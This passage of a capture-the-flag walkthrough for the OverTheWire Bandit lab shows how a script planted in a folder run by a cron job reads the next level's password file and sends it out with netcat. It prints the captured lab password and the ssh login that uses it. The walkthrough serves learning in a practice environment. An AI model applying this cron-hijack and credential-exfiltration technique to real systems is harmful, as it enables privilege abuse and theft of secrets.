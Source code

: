 ```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
bandit23@bandit:~$ cd /var/spool/bandit24
bandit23@bandit:/var/spool/bandit24$ # you'd probably want to use `mktemp -d` if you were experimenting for real
bandit23@bandit:/var/spool/bandit24$ cat << 'EOF' > /tmp/solve23/solve23.sh
#!/bin/bash
echo -n "$(cat /etc/bandit_pass/bandit24)" | nc localhost 8899
EOF
bandit23@bandit:/var/spool/bandit24$ chmod +x /tmp/solve23/solve23.sh
bandit23@bandit:/var/spool/bandit24$ cp /tmp/solve23/solve23.sh foo
```

Then, after the minute turns, you should see your other terminal update with:

```bash
bandit23@bandit:~$ nc -lvvp 8899
Listening on 0.0.0.0 8899
Connection received on localhost 37922
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

And thus you get the password.

---

## Level 24

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
